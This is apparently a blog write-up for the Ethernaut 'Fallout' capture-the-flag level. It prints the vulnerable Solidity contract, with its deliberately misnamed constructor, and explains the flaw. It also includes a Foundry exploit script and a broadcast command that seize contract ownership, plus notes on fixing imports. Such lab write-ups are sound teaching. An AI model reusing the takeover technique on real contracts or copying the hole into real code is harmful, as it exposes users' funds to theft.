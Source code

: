 ```yaml
---
title: 'Fallout - The Ethernaut'
cover: https://ethernaut.openzeppelin.com/imgs/Level2.svg
categories: ["ctf"]
tags: ["blockchain","ethernaut"]
date: 2025-09-16
lastmod: 2025-09-16
---
```


## Challenge Overview

In this level, we interact with a contract called **Fallout**.
The goal is to:

1. Become the owner of the contract.

At first glance, ownership seems to be permanently assigned to the deployer via a constructor. However, a critical typo in the constructor's name makes it a public function, allowing anyone to claim ownership.

---

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

---

## Exploit Explanation

The vulnerability lies in the misnamed constructor function:

```solidity
function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
}
```

* In Solidity versions <0.7.0, a constructor is defined by a function with the **exact same name as the contract**.
* The function `Fal1out()` (with a number '1') does not match the contract name `Fallout` (with the letter 'o'), so it is **not a constructor** but a regular public function.
* This means **anyone can call this function** at any time to reassign the `owner` to themselves.

So the exploit sequence is simple:

1. Call the `Fal1out()` function.
2. The function executes, setting `msg.sender` (our address) as the new `owner`.

---

## Exploit Script

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Fallout.sol";

contract FalloutSolution is Script {
    Fallout public falloutInstance = Fallout(<YOUR_INSTANCE>);

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        // Debug logs before attack
        console.log("Owner before attack:", falloutInstance.owner());

        // Step 1: Call the misnamed constructor function
        falloutInstance.Fal1out();

        // Debug logs after attack
        console.log("Owner after attack:", falloutInstance.owner());
        console.log("My Address:", vm.envAddress("MY_ADDRESS"));

        vm.stopBroadcast();
    }
}
```

---

## Proof of Concept (PoC)

Run the exploit with Foundry:

```bash
forge script script/FalloutSolution.s.sol --rpc-url $SEPOLIA_URL --broadcast
```

## Solving SafeMath Import Issue

If you encounter import/remapping issues for the SafeMath library in the challenge contract, follow these steps to resolve them in a Foundry project.

### 1. Configure `foundry.toml`

Create or modify `foundry.toml` with the following settings:

```toml
solc_version = "0.6.0"
remappings = [
    "forge-std/=lib/forge-std/src/",
    "@openzeppelin/contracts/=lib/openzeppelin-contracts/contracts/"
]
```

### 2. Install the Correct OpenZeppelin Release

Install the version of OpenZeppelin contracts that matches the Solidity version:

```bash
forge install openzeppelin/openzeppelin-contracts@v3.4.2
```

### 3. Update the Import Path

Modify the import statement in the challenge contract to use the remapped path:

```diff
- import "openzeppelin-contracts-06/math/SafeMath.sol";
+ import "@openzeppelin/contracts/math/SafeMath.sol";
```

This ensures the compiler correctly resolves the SafeMath dependency for `pragma solidity ^0.6.0`.